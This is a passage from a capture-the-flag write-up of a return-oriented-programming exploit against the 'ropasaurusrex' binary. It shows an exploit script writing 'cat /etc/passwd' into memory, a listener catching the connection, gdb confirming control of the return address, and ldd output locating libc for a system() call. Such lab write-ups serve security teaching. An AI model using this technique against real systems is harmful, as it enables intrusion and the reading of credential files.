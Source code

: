 We run that against the target:

```

<span class="lnr">1 </span>ron@debian-x86 ~ $ ruby sploit.rb <span class="Statement">"</span><span class="Constant">cat /etc/passwd</span><span class="Statement">"</span>
```

And verify that it crashes:

```

<span class="lnr">1 </span>listening on <span class="Statement">[</span>any<span class="Statement">]</span> <span class="Constant">4444</span> ...
<span class="lnr">2 </span>connect to <span class="Statement">[</span>127.0.0.1<span class="Statement">]</span> from debian-x86.skullseclabs.org <span class="Statement">[</span>127.0.0.1<span class="Statement">]</span> <span class="Constant">53456</span>
<span class="lnr">3 </span>Segmentation fault <span class="PreProc">(</span><span class="Special">core dumped</span><span class="PreProc">)</span>
```

Then verify that it crashed at the return address of <tt>read()</tt> (<tt>0x43434343</tt>) and wrote the command to the memory at <tt>0x08049530</tt>:

```

<span class="lnr">1 </span>$ gdb <span class="Special">--quiet</span> ./ropasaurusrex core
<span class="lnr">2 </span><span class="Statement">[</span>...<span class="Statement">]</span>
<span class="lnr">3 </span>Program terminated with signal <span class="Constant">11</span>, Segmentation fault.
<span class="lnr">4 </span><span class="Comment">#0  0x43434343 in ?? ()</span>
<span class="lnr">5 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> x/s 0x08049530
<span class="lnr">6 </span>0x8049530:       <span class="Statement">"</span><span class="Constant">cat /etc/passwd</span><span class="Statement">"</span>
```

Perfect!

### Running it

Now that we've written <tt>cat /etc/passwd</tt> into memory, we need to call <tt>system()</tt> and point it at that address. It turns out, if we assume ASLR is off, this is easy. We know that the executable is linked with libc:

```

<span class="lnr">1 </span>$ ldd ./ropasaurusrex
<span class="lnr">2 </span>        linux-gate.so.1 <span class="Statement">=</span><span class="Statement">></span>  <span class="PreProc">(</span><span class="Special">0xb7703000</span><span class="PreProc">)</span>
<span class="lnr">3 </span>        libc.so.6 <span class="Statement">=</span><span class="Statement">></span> /lib/i686/cmov/libc.so.6 <span class="PreProc">(</span><span class="Special">0xb75aa000</span><span class="PreProc">)</span>
<span class="lnr">4 </span>        /lib/ld-linux.so.2 <span class="PreProc">(</span><span class="Special">0xb7704000</span><span class="PreProc">)</span>
```
